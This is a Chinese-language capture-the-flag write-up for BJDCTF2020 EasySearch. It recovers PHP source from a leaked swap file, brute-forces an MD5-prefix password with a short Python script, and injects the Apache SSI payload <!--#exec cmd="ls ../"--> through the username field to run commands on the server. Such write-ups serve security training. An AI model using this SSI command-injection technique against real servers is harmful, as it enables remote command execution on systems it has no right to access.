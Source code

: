 ## [BJDCTF2020]EasySearch

打开题目，没什么思路，我们就使用`dirsearch`扫一下目录

发现了 `index.php.swp` 里面存在源码：

```php
<?php
	ob_start();
	function get_hash(){
		$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
		$random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
		$content = uniqid().$random;
		return sha1($content); 
	}
    header("Content-Type: text/html;charset=utf-8");
	***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
			***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
			echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";
            
    }else
    {
	***
    }
	***
?>
```

分析一下，很明显，我们首先需要获得密码，密码md5加密后前六位为：`6d0bc1`

我们可以爆破得出密码，使用python脚本：

```python
import hashlib
admin = "6d0bc1"
for i in range(10000000):
    passwd = hashlib.md5(str(i).encode('utf-8')).hexdigest()[:6]
    if admin == passwd:
        print(i)
        
 输出：
2020666
```

所以我们就知道密码为：2020666

但是这里我们怎么才能得到flag呢？这里会将用户名给传入文件中，但是并不是普通的文件，而是`.shtml` 文件

这里有个知识点，`Apache SSI远程命令执行漏洞`

> SSI 注入全称Server-Side Includes Injection，即服务端包含注入。SSI 是类似于 CGI，用于动态页面的指令。SSI 注入允许远程在 Web 应用中注入脚本来执行代码。
>
> SSI是嵌入HTML页面中的指令，在页面被提供时由服务器进行运算，以对现有HTML页面增加动态生成的内容，而无须通过CGI程序提供其整个页面，或者使用其他动态技术。
>
> 从技术角度上来说，SSI就是在HTML文件中，可以通过注释行调用的命令或指针，即允许通过在HTML页面注入脚本或远程执行任意代码。

意思就是，如果服务器端开启了SSI功能，我们可以通过相关的SSI写法(写在html注释中)将命令代码写入shtml文件中，然后代码执行的话就可以进行命令执行了

我们可以使用exec命令查询flag所在位置

```
<!--#exec cmd="ls ../"-->
```

当我们username:

```
<!--#exec cmd="ls ../"-->
```

返回url：

```
public/653573535b44403d59e8971929e98dc2ab4dd611.shtml
```

我们访问它

![image-20230315225754176](https://s2.loli.net/2023/03/15/VBnPGkJD1OwtqHK.png)

flag就在这个文件里面





